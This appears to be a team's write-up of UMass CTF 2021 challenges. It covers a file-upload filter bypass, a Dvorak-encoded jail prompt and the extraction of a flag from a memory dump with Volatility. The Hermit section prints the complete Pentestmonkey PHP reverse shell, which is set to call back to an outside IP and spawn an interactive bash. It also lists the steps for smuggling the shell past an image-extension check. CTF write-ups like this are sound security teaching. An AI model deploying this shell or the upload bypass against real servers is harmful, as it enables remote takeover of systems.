








# UMASS CTF 2021 Write Ups

[UMASS CTF 2021](https://ctf.umasscybersec.org/challenges#)

[CTF Time](https://ctftime.org/event/1282)

---

- [UMASS CTF 2021 Write Ups](#umass-ctf-2021-write-ups)
  - [Hermit - Part 1 (HP1)](#hermit---part-1-hp1)
    - [Description - HP1](#description---hp1)
    - [Process - HP1](#process---hp1)
    - [Screen Grabs - HP1](#screen-grabs---hp1)
      - [User Shell - HP1](#user-shell---hp1)
      - [User Flag - HP1](#user-flag---hp1)
      - [Root LUL - HP1](#root-lul---hp1)
      - [Proof - HP1](#proof---hp1)
    - [Tools Used - HP1](#tools-used---hp1)
  - [ekrpat (ekrpat)](#ekrpat-ekrpat)
    - [Description - ekrpat](#description---ekrpat)
    - [Process - ekrpat](#process---ekrpat)
    - [Screen Grabs - ekrpat](#screen-grabs---ekrpat)
      - [What We See First - ekrpat](#what-we-see-first---ekrpat)
    - [Tools Used - ekrpat](#tools-used---ekrpat)
  - [Notes (notes)](#notes-notes)
    - [Description - notes](#description---notes)
    - [Process - notes](#process---notes)
    - [Screen Grabs - notes](#screen-grabs---notes)
      - [Analyzing the Memory Dump - notes](#analyzing-the-memory-dump---notes)
      - [Dumping the Memory Contents - notes](#dumping-the-memory-contents---notes)
      - [Decoding the Flag - notes](#decoding-the-flag---notes)
    - [Tools Used - notes](#tools-used---notes)
  - [Example Challenge Name (ECN)](#example-challenge-name-ecn)
    - [Description - ECN](#description---ecn)
    - [Process - ECN](#process---ecn)
    - [Screen Grabs - ECN](#screen-grabs---ecn)
    - [Tools Used - ECN](#tools-used---ecn)

---

## Hermit - Part 1 (HP1)

### Description - HP1

Author: [goproslowyo](https://github.com/goproslowyo)

This box was a simple extension filter bypass to gain a shell and get the flag.

### Process - HP1

1. Started `netcat` listener on `8001`.
1. Uploaded php reverse shell with an image extension -- `.png` worked fine.
1. We're given a random filename `0YE8gg` and a link (`http://34.121.84.161:8086/show.php?filename=0YE8gg`) to view it.
1. Viewing the link executes the reverse shell to give us access.
1. From here we can explore the server and get the flag.

    ```shell
    hermit@aec9a5b5ef1d:/$ ls /home/hermit
    ls /home/hermit
    userflag.txt
    hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
    cat /home/hermit/userflag.txt
    UMASS{a_picture_paints_a_thousand_shells}
    ```

### Screen Grabs - HP1

#### User Shell - HP1



#### User Flag - HP1



#### Root LUL - HP1



#### Proof - HP1



### Tools Used - HP1

1. [Pentest Monkey PHP Revshell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit(0);
$VERSION = "1.0";
$ip = '34.251.165.208';
$port = 8001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; whoami; /bin/bash -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
  $pid = pcntl_fork();
  if ($pid == -1) {
    printit("ERROR: Can't fork");
    exit(1);
  }
  if ($pid) {
    exit(0);  // Parent exits
  }
  if (posix_setsid() == -1) {
    printit("Error: Can't setsid()");
    exit(1);
  }
  $daemon = 1;
} else {
  printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
  printit("$errstr ($errno)");
  exit(1);
}
$descriptorspec = array(
  0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
  1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
  2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
  printit("ERROR: Can't spawn shell");
  exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
  if (feof($sock)) {
    printit("ERROR: Shell connection terminated");
    break;
  }
  if (feof($pipes[1])) {
    printit("ERROR: Shell process terminated");
    break;
  }
  $read_a = array($sock, $pipes[1], $pipes[2]);
  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
  if (in_array($sock, $read_a)) {
    if ($debug) printit("SOCK READ");
    $input = fread($sock, $chunk_size);
    if ($debug) printit("SOCK: $input");
    fwrite($pipes[0], $input);
  }
  if (in_array($pipes[1], $read_a)) {
    if ($debug) printit("STDOUT READ");
    $input = fread($pipes[1], $chunk_size);
    if ($debug) printit("STDOUT: $input");
    fwrite($sock, $input);
  }
  if (in_array($pipes[2], $read_a)) {
    if ($debug) printit("STDERR READ");
    $input = fread($pipes[2], $chunk_size);
    if ($debug) printit("STDERR: $input");
    fwrite($sock, $input);
  }
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit($string) {
  if (!$daemon) {
    print "$string\n";
  }
}
?>
```

---

## ekrpat (ekrpat)

### Description - ekrpat

Author: [goproslowyo](https://github.com/goproslowyo)

This challenge starts off with text encoded in dvorak. Converting it we find a jail we need to break out of.

### Process - ekrpat

1. We're given an IP and port to connect to `34.72.64.224` and `8083`. Upon connecting we find a strange code:

    ```shell
    $ nc 34.72.64.224 8083
    Frg-k. xprt.b mf jre.! >ojal. ,cydrgy yd. d.nl ru .kanw .q.jw cmlrpyw rl.bw
    row p.aew ofoy.mw abe ,pcy.v Ucpoyw .by.p -ekrpat-v Frg ,cnn yd.b i.y abryd.p
    cblgy ,dcjd frg jab go. ypf yr xp.at rgy ru yd. hacnv
    ```

1. This is the Dvorak keyboard layout so let's decode it to:

    ```text
    You've broken my code! Escape without the help of eval, exec, import, open,
    os, read, system, and write. First, enter 'dvorak'. You will then get another
    input which you can use try to break out of the jail.
    ```

### Screen Grabs - ekrpat

#### What We See First - ekrpat



### Tools Used - ekrpat

1. [Dvorak Encoder/Decoder](http://wbic16.xedoloh.com/dvorak.html)

---

## Notes (notes)

### Description - notes

Solved By: [OreoByte](https://github.com/OreoByte)

Author: [goproslowyo](https://github.com/goproslowyo)

We're given a memory dump to analyze. Inside we find a base64 encoded string on the users clipboard containing the flag.

### Process - notes

1. Downloaded `image.mem` for the challenge.

    ```shell
    root@ip-10-10-162-135:~/repos# curl -LO http://static.ctf.umasscybersec.org/forensics/13096721-bb26-4b79-956f-3f0cddebd49b/image.mem
    ```

1. Analyze the memory dump:
    * First Using `imageinfo` to identify the the correct profile to use later with the `--profile=[profile]` argument. Seems like it's a Windows 7 memory dump.
    * Can get the same results without the `grep -vi 'fail'`

    ```shell
    root@ip-10-10-162-135:~/repos# vol.py -f image.mem imageinfo | grep -vi 'fail'
    Volatility Foundation Volatility Framework 2.6.1
    INFO    : volatility.debug    : Determining profile based on KDBG search...
              Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                        AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                        AS Layer2 : FileAddressSpace (/root/repos/image.mem)
                          PAE type : No PAE
                              DTB : 0x187000L
                              KDBG : 0xf80002a3b0a0L
              Number of Processors : 6
        Image Type (Service Pack) : 1
                    KPCR for CPU 0 : 0xfffff80002a3cd00L
                    KPCR for CPU 1 : 0xfffff880009f1000L
                    KPCR for CPU 2 : 0xfffff88002ea9000L
                    KPCR for CPU 3 : 0xfffff88002f1f000L
                    KPCR for CPU 4 : 0xfffff88002f95000L
                    KPCR for CPU 5 : 0xfffff88002fcb000L
                KUSER_SHARED_DATA : 0xfffff78000000000L
              Image date and time : 2021-03-20 18:16:12 UTC+0000
        Image local date and time : 2021-03-20 13:16:12 -0500
    ```

1. Hidden in the users clipboard memory dump we find a base64 encoded string.

    ```shell
    root@ip-10-10-162-135:~/repos# vol.py -f image.mem --profile=Win7SP1x64 clipboard
    Volatility Foundation Volatility Framework 2.6.1
    Session    WindowStation Format                         Handle Object             Data
    ---------- ------------- ------------------ ------------------ ------------------ --------------------------------------------------
            1 WinSta0       CF_UNICODETEXT               0x5a00b5 0xfffff900c26aeb60 VU1BU1N7JDNDVVIzXyQ3MFJhZzN9Cg==
            1 WinSta0       CF_TEXT              0x64006e00000010 ------------------
            1 WinSta0       0x13c01b7L                        0x0 ------------------
            1 WinSta0       CF_TEXT                           0x1 ------------------
            1 ------------- ------------------          0x13c01b7 0xfffff900c06fa270
    ```

1. Decode the string:

    ```shell
    root@ip-10-10-162-135:~/repos# echo VU1BU1N7JDNDVVIzXyQ3MFJhZzN9Cg== | base64 -d
    UMASS{$3CUR3_$70Rag3}
    ```

### Screen Grabs - notes

#### Analyzing the Memory Dump - notes



#### Dumping the Memory Contents - notes



#### Decoding the Flag - notes



### Tools Used - notes

1. [Volatility v2.6](https://github.com/volatilityfoundation/volatility/tree/2.6)

---

template:

## Example Challenge Name (ECN)

### Description - ECN

Author: [you](https://yourlink)

Quick overview of box, e.g. this box was a simple extension filter bypass to gain a shell and get the flag.

### Process - ECN

1. Started `netcat` listener on `8001`.
1. Uploaded php reverse shell with an image extension -- `.png` worked fine.
1. We're given a random filename `0YE8gg` and a link (`http://34.121.84.161:8086/show.php?filename=0YE8gg`) to view it.
1. Viewing the link executes the reverse shell to give us access.
1. From here we can explore the server and get the flag.

    ```shell
    hermit@aec9a5b5ef1d:/$ ls /home/hermit
    ls /home/hermit
    userflag.txt
    hermit@aec9a5b5ef1d:/$ cat /home/hermit/userflag.txt
    cat /home/hermit/userflag.txt
    UMASS{a_picture_paints_a_thousand_shells}
    ```

### Screen Grabs - ECN


### Tools Used - ECN

1. A tool [link](https://somewhere.local)
2. B Tool
3. C Tool
